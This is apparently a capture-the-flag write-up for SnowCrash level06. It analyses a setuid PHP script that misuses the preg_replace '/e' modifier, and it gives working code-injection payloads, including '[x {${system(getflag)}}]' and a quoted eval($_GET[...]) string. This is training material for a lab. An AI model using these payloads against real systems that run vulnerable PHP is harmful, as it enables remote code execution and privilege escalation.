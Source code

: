 # Level06

## Research

```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```bash
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ ./level06.php
PHP Notice:  Undefined offset: 1 in /home/user/level06/level06.php on line 5
PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
```bash
level06@SnowCrash:~$ strings level06
[...]
/usr/bin/php
/home/user/level06/level06.php
[...]
```
Maybe `level06` executes `level06.php`.

If we `cat level06.php` the file is hard to read, so I re-wrote it and study it: 
```php
#!/usr/bin/php
<?php
    function y($m) { 
        $m = preg_replace("/\./", " x ", $m); 
        $m = preg_replace("/@/", " y", $m); 
        return $m; 
    }
    // manipule argv 1
    function x($y, $z) {
        // read file y and put content into string a
        $a = file_get_contents($y); 
        // first / indicates start of regular expression
        // second / indicates end of it, and start of expression flags
        // expression flag here: e , known for security problem
        // The e modifier is a PHP-specific modifier that triggers PHP 
        // to run the resulting string as PHP code.
        // the '/e' modifier actually allows us to evaluate the second argument as a PHP expression.
        // calls the function eval()
        // programms call function y() here thanks to modifier e
        // () Capturing group. Groups multiply tokens together and creates a capture group
        // for extracting a substring or using a backreference
        // \1 - it means the first capturing group in the matched expression. 
        // \n would be the nth capturing group. (Note that \0 would be whole match). 
        // In many engines, the upperlimit for n is 9, but some support up to 99 as well.
        // When used in regex like (a|b)\1, it means that after a or b, the next character 
        // should be the first captured group, which is a or b so the regex here would 
        // match aa or bb.
        // \[ matches a [ character
        // x matches a x character and a space one
        // . matches any character except line breaks
        // * matches 0 or more of the preceding token
        // \] matches a ] character

        // \[x (.*)\] first group --> [x ] or [x coucou] matches
        // .* second group, given as parameter to function y --> [x @.coucou] changes @ and . in y function
        // [x@ @.coucou] don't match first group, so it doesn't work
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        // replace [ by (
        $a = preg_replace("/\[/", "(", $a);
        // replace ] by )
        $a = preg_replace("/\]/", ")", $a);
        return $a; 
    }
    // y = argv 1
    // z = argv 2
    $r = x($argv[1], $argv[2]); 
    print $r;
?>
```

Security concern about the `/e` modifier of `preg_repace()` : </br>
`As /e evaluates arbitrary PHP code it can easily be exploited if user input is not carefully validated or sanitized.
For example the above example can be used to execute arbitrary PHP code by passing the string <h1>{${eval($_GET[php_code])}}</h1>. The evaluted code in this case would be "<h1>" . strtoupper("{${eval($_GET[php_code])}}") . "</h1>" and as such execute any PHP code passed in the php_code GET variable. ` </br>
https://wiki.php.net/rfc/remove_preg_replace_eval_modifier


```bash
level06@SnowCrash:~$ ./level06 hello
PHP Warning:  file_get_contents(hello): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```
We seems to need a file as an argument.

Theorical steps:
- Create a file with a syntax matching the regex
- So a part of the string (the second group) can be sent to function y
- In function y the string will be transformed (or not) then returned
- The returned string will be executed by the e modifier</br>
https://www.yeahhub.com/code-execution-preg_replace-php-function-exploitation/ </br>

In reality:
- Struggled **a lot** to find good syntax, tried: </br>
`echo '[x $(getflag)]' > /tmp/flag && ./level06 /tmp/flag` </br>
`echo '[x ${system(getflag)}]' > /tmp/flag && ./level06 /tmp/flag` </br>
and a lot of variants of it...

## Solution 

Let's find the good syntax:</br>
https://wiki.php.net/rfc/remove_preg_replace_eval_modifier</br>
https://www.php.net/manual/fr/language.types.string.php</br>
https://www.voidsecurity.in/2012/12/exploit-exercise-php-pregreplace.html</br>
https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex 

Finally:
```bash
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]' > /tmp/flag && ./level06 /tmp/flag
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXX
PHP Notice:  Undefined variable: Check flag.Here is your token : XXXXXXXXXXXXXXXXXXX in /home/user/level06/level06.php(4) : regexp code on line 1

```


